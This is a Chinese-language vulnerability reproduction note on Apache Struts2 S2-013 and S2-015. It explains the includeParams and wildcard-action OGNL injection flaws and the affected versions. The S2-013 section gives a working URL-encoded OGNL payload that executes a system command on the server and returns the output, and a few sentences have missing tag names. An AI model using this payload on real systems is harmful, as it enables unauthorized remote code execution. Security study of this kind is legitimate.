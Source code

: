 ![image-20220331102633729](E:\学习\picture\image-20220331102633729.png)

## **S2-013复现**

### 原理

~~~
struts2的标签中 和 都有一个 includeParams 属性，可以设置成如下值

none - URL中不包含任何参数（默认）
get - 仅包含URL中的GET参数
all - 在URL中包含GET和POST参数
此时 或尝试去解析原始请求参数时，会导致OGNL表达式的执行
~~~

**影响版本：Struts 2.0.0-2.3.14**

### 漏洞搭建

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/03/31/20220331222938.png)

Struts2 的标签`<s:a>`和`<s:url>`提供了一个 includeParams 属性。该属性的主要作用域是了解是否包含 http 请求参数。

includeParams 的允许值为：

1. none - 在 URL 中不包含任何参数（默认）
2. get - 在 URL 中仅包含 GET 参数
3. all - 在 URL 中包含 GET 和 POST 参数

当 时`includeParams=all`，这个请求的 GET 和 POST 参数放在 URL 的 GET 参数上。在此过程中，参数将被 OGNL 表达式解析。它导致命令执行。

### poc构建

~~~~
a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/01/20220401133558.png)

## S2-015复现

### 原理

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

~~~
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
~~~
